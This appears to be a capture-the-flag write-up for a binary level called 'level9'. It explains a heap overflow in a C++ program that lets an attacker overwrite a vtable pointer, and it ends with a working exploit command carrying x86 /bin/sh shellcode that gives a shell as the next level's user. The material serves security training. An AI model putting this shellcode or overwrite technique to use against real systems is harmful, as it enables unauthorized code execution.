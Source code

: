 level9
======

Decompilation
-------------

This time we seem to have some c++ code.
The program looks like this:
```cpp
#include <cstdlib>
#include <cstring>

class N
{
private:
	char	annotation[100];
	int		value;

public:
	N(int value): value(value)
	{ }

	virtual int	operator+(N &other)
	{ return value + other.value; }

	virtual int	operator-(N &other)
	{ return value - other.value; }

	void setAnnotation(char *str)
	{ memcpy(annotation, str, strlen(str)); }
};

int main(int ac, char **av)
{
	N	*a;
	N	*b;

	if (ac < 2) {
		exit(1);
	}

	a = new N(5);
	b = new N(6);

	a->setAnnotation(av[1]);

	return *b + *a;
}
```

We can see that there are two virtual methods that can be overloaded by classes inheriting N.
The way virtual methods work is that each instance of a class containing them needs to have a pointer to the vtable
The vtable contains the pointers to the inherited or overloaded implementations.
It can contain NULL pointers, when inheriting abstract classes, in which case they cannot be instanciated.

The memory layout for instances of such classes looks like this:
| vtable | members | ... |
|:------:|:-------:|:---:|
|  0x00  |   0x04  | ... |

In our case it look like this:
| vtable | annotation | value |
|:------:|:----------:|:-----:|
|  0x00  |    0x04    |  0x68 |

The contents of the vtable look like this:
|   vtable   |
|:----------:|
| operator + |
| operator - |

Before calling return, the operator +, which corresponds to the first entry of the vtable, will be called.
In assembly the call looks like this:
```nasm
...
 804867c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]		; b->vtable
 8048682:	8b 10                	mov    edx,DWORD PTR [eax]		; b->vtable[0]

 8048684:	8b 44 24 14          	mov    eax,DWORD PTR [esp+0x14]	; a
 8048688:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax	; arg_1 = a

 804868c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048690:	89 04 24             	mov    DWORD PTR [esp],eax		; arg_0 = b

 8048693:	ff d2                	call   edx						; b->vtable[0](b, a)
...
```

Exploitation
------------

If we manage to override the pointer to b's vtable with a pointer to some other table, we can execute shellcode.

In memory, our two objects look like this:
| a.vtable | a.annotation | a.value | overhead | b.vtable | b.annotation | b.value | overhead |
|:--------:|:------------:|:-------:|:--------:|:--------:|:------------:|:-------:|:--------:|
|   0x00   |     0x04     |   0x68  |   0x6c   |   0x70   |     0x74     |   0xd8  |   0xdc   |


The memcpy copies to annotation, which is at offset 0x04. To reach b.vtable we need to input 0x70 - 0x04 = 0x6c bytes followed by the address of our fake vtable. 
We can put our fake vtable at the beginning of the annotation. Inside, we can simply point onto the memory following it, so that we can place our shellcode in the remaining space.

To find out the address of the annotation buffer, we can use gdb:
```sh
gdb -batch -ex 'b * 0x08048693' -ex 'r "AAAA"' -ex 'p *(char **)($esp + 0x14) + 0x4' ./level9
```
```c
Breakpoint 1 at 0x8048693

Breakpoint 1, 0x08048693 in main ()
$1 = 0x804a00c "AAAA"
```

We can replace the As with the address + 4 and put the address to the end of the input.
I will put the same shellcode I used in level2 and fill the remaining space with As.
```
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

./level9 $'\x10\xa0\x04\x08'"$SHELLCODE"$(printf %.0sA {1..83})$'\x0c\xa0\x04\x08'
```

```sh
whoami
```
```
bonus0
```
